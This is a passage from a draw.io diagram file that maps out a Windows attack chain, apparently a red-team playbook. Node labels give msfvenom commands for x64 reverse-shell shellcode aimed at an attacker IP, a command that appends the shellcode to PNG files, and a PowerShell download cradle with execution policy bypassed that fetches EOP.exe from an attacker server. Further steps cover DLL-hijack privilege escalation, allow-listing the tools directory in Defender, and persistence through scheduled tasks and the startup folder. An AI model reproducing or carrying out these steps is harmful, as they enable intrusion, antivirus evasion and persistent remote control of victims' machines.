        <mxCell id="P6aCfQ930mBBJoiv-hOj-27" value="Startup&lt;br&gt;Folder" style="shape=trapezoid;perimeter=trapezoidPerimeter;whiteSpace=wrap;html=1;fixedSize=1;strokeColor=#000000;fillColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="370" y="225" width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="kM2FHF2urjBJhsgAb-iy-3" value="Execute reverse_9002.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-24">
          <mxGeometry x="590" y="225" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-0" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="P6aCfQ930mBBJoiv-hOj-30" target="P6aCfQ930mBBJoiv-hOj-47" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-30" value="Update EOP Payload Code" style="swimlane;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="-1230" y="40" width="1300" height="170" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-33" value="DEVOBJ.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-30" vertex="1">
          <mxGeometry x="200" y="40" width="150" height="70" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-34" value="Medium IL Tools Directory&#xa;(Reverse_9101.exe)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" parent="P6aCfQ930mBBJoiv-hOj-33" vertex="1">
          <mxGeometry y="30" width="150" height="40" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-35" value="9101.raw" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-30" vertex="1">
          <mxGeometry x="550" y="40" width="140" height="90" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-36" value="Attacker IP" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="P6aCfQ930mBBJoiv-hOj-35" vertex="1">
          <mxGeometry y="30" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-37" value="Port (9101)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="P6aCfQ930mBBJoiv-hOj-35" vertex="1">
          <mxGeometry y="60" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-38" value="msfvenom -a x64 --platform Windows -p windows/x64/shell_reverse_tcp -n 1800 --pad-nops LHOST=IP LPORT=Port -f raw EXITFUNC=thread &amp;gt; port#.raw" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-30" vertex="1">
          <mxGeometry x="710" y="60" width="570" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-41" value="9101.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-30" vertex="1">
          <mxGeometry x="370" y="40" width="150" height="70" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-42" value="Medium IL Tools Directory&#xa;(9101.png)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" parent="P6aCfQ930mBBJoiv-hOj-41" vertex="1">
          <mxGeometry y="30" width="150" height="40" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-43" value="EOP.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-30" vertex="1">
          <mxGeometry x="30" y="40" width="140" height="90" as="geometry">
            <mxRectangle x="-827" y="400" width="90" height="30" as="alternateBounds" />
          </mxGeometry>
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-44" value="Medium IL Tools Directory&#xa;(DEVOBJ.dll)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="P6aCfQ930mBBJoiv-hOj-43" vertex="1">
          <mxGeometry y="30" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-45" value="Medium IL Tools Directory&#xa;(Allow-list A/V)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="P6aCfQ930mBBJoiv-hOj-43" vertex="1">
          <mxGeometry y="60" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-39" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;entryX=1;entryY=0.5;entryDx=0;entryDy=0;exitX=0;exitY=0.5;exitDx=0;exitDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-10" target="P6aCfQ930mBBJoiv-hOj-30" edge="1">
          <mxGeometry y="10" relative="1" as="geometry">
            <mxPoint as="offset" />
            <mxPoint x="480" y="110" as="targetPoint" />
            <mxPoint x="315" y="230" as="sourcePoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-1" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="P6aCfQ930mBBJoiv-hOj-47" target="P6aCfQ930mBBJoiv-hOj-54" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-47" value="Compile EOP Payloads" style="swimlane;whiteSpace=wrap;html=1;strokeColor=#FFFFFF;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="-1230" y="250" width="880" height="170" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-52" value="Generate MSFVenmon Payload and Embed Into png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-47" vertex="1">
          <mxGeometry x="255" y="40" width="160" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-53" value="cp original.png combined.png; cat port#.raw &amp;gt;&amp;gt; Port#.png" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-47" vertex="1">
          <mxGeometry x="440" y="40" width="290" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-22" value="Compile EXE / DLL" style="swimlane;fontStyle=0;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;whiteSpace=wrap;html=1;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-47" vertex="1">
          <mxGeometry x="70" y="40" width="140" height="120" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-23" value="EOP.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" parent="c0Sctn81WB5nrNk0CtNy-22" vertex="1">
          <mxGeometry y="30" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-24" value="9001.cpp&lt;br&gt;" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" parent="c0Sctn81WB5nrNk0CtNy-22" vertex="1">
          <mxGeometry y="60" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-25" value="DEVOBJ.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" parent="c0Sctn81WB5nrNk0CtNy-22" vertex="1">
          <mxGeometry y="90" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-17" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="P6aCfQ930mBBJoiv-hOj-54" target="c0Sctn81WB5nrNk0CtNy-2" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-54" value="Stage EOP Payloads" style="swimlane;shadow=0;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="-1230" y="460" width="580" height="110" as="geometry">
            <mxRectangle x="480" y="340" width="70" height="30" as="alternateBounds" />
          </mxGeometry>
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-55" value="EOP.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-54" vertex="1">
          <mxGeometry x="40" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-56" value="9101.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-54" vertex="1">
          <mxGeometry x="310" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-58" value="9101.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-54" vertex="1">
          <mxGeometry x="450" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-26" value="DEVOBJ.dll" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-54" vertex="1">
          <mxGeometry x="180" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-2" value="Execute EOP Payloads" style="swimlane;whiteSpace=wrap;html=1;strokeColor=#FFFFFF;fillColor=#00CC00;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="-1230" y="620" width="990" height="330" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-3" value="Download staged binaries and png&#39;s to Medium IL Tools directory." style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="35" y="45" width="120" height="80" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-4" value="powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -c &quot;IEX(New-Object Net.WebClient).downloadFile(&#39;http://[IP]:[web server port]/EOP.exe&#39;,&#39;C:\Path\file.ext&#39;)&quot;" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="170" y="45" width="570" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-5" value="Execute EOP.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="190" y="135" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-6" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.438;exitY=0.997;exitDx=0;exitDy=0;exitPerimeter=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-3" target="c0Sctn81WB5nrNk0CtNy-5" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-28" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-9" target="c0Sctn81WB5nrNk0CtNy-27" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-9" value="Create &quot;Gapped&quot; Directory" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="370" y="190" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-10" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-5" target="c0Sctn81WB5nrNk0CtNy-9" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-30" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-27" target="c0Sctn81WB5nrNk0CtNy-29" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-27" value="Copy legitimate fsavailux.exe to &quot;Gapped&quot; Directory" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="370" y="120" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-32" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-29" target="c0Sctn81WB5nrNk0CtNy-31" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-29" value="Copy malicious DEVOBJ.dll to &quot;Gapped&quot; Directory" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="530" y="120" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-34" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-31" target="c0Sctn81WB5nrNk0CtNy-33" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-31" value="Execute fsavailux.exe from &quot;Gapped&quot; Directory" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="530" y="190" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-38" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-33" target="c0Sctn81WB5nrNk0CtNy-35" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-40" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-33" target="c0Sctn81WB5nrNk0CtNy-39" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-43" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-33" target="c0Sctn81WB5nrNk0CtNy-42" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-33" value="DLL Hijack through malicious DEVOBJ.dll" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="690" y="190" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-37" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-35" target="c0Sctn81WB5nrNk0CtNy-36" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-35" value="Execute 9101.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="690" y="120" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-36" value="Read Payload From 9101.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="840" y="120" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-16" value="High IL&lt;br&gt;Reverse Shell" style="shape=trapezoid;perimeter=trapezoidPerimeter;whiteSpace=wrap;html=1;fixedSize=1;strokeColor=#000000;fillColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="840" y="85" width="120" height="35" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-39" value="Delete &quot;Gapped&quot; Directory" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="840" y="190" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-42" value="Allow-list Medium IL Tools directory for Defender" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="c0Sctn81WB5nrNk0CtNy-2" vertex="1">
          <mxGeometry x="690" y="262" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-22" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="c0Sctn81WB5nrNk0CtNy-44" target="Op0RA1QyIyzGp62vVNNJ-0" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="380" y="845" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-24" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="c0Sctn81WB5nrNk0CtNy-44" target="WIyWlLk6GJQsqaUBKTNV-11" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-44" value="Establish High IL&amp;nbsp;&lt;br&gt;/ SYSTEM Persistence" style="rhombus;whiteSpace=wrap;html=1;shadow=0;fontFamily=Helvetica;fontSize=12;align=center;strokeWidth=1;spacing=6;spacingTop=-4;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="140" y="790" width="160" height="110" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-18" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="Op0RA1QyIyzGp62vVNNJ-0" target="Op0RA1QyIyzGp62vVNNJ-14" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="1230" y="1190" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-0" value="Update Persistance Payload Code" style="swimlane;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="470" y="940" width="1520" height="170" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-1" value="Pers_High.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-0" vertex="1">
          <mxGeometry x="35" y="55" width="150" height="70" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-2" value="High IL Tools Directory&#xa;(9201.exe / 9202.exe)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" parent="Op0RA1QyIyzGp62vVNNJ-1" vertex="1">
          <mxGeometry y="30" width="150" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-5" value="9201.raw / 9202.raw / 9203.raw" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;shadow=0;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-0" vertex="1">
          <mxGeometry x="735" y="55" width="180" height="90" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-6" value="Attacker IP" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="Op0RA1QyIyzGp62vVNNJ-5" vertex="1">
          <mxGeometry y="30" width="180" height="30" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-7" value="Port (9201 / 9202 / 9203)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="Op0RA1QyIyzGp62vVNNJ-5" vertex="1">
          <mxGeometry y="60" width="180" height="30" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-8" value="msfvenom -a x64 --platform Windows -p windows/x64/shell_reverse_tcp -n 1800 --pad-nops LHOST=IP LPORT=Port -f raw EXITFUNC=thread &amp;gt; port#.raw" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-0" vertex="1">
          <mxGeometry x="935" y="55" width="570" height="50" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-3" value="9201.cpp / 9202.cpp / 9203.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-0" vertex="1">
          <mxGeometry x="505" y="55" width="190" height="70" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-4" value="High IL Tools Directory&#xa;(9201.png / 9202.png / 9203.png)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" parent="Op0RA1QyIyzGp62vVNNJ-3" vertex="1">
          <mxGeometry y="30" width="190" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-9" value="Scheduled_Task_Template.xml" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-0" vertex="1">
          <mxGeometry x="265" y="55" width="193" height="70" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-10" value="High IL Tools Directory&#xa;(9202.exe)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" parent="Op0RA1QyIyzGp62vVNNJ-9" vertex="1">
          <mxGeometry y="30" width="193" height="40" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-19" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="Op0RA1QyIyzGp62vVNNJ-14" target="Op0RA1QyIyzGp62vVNNJ-23" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-14" value="Compile Persistance Payloads" style="swimlane;whiteSpace=wrap;html=1;strokeColor=#FFFFFF;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="470" y="1200" width="880" height="210" as="geometry" />
        </mxCell>
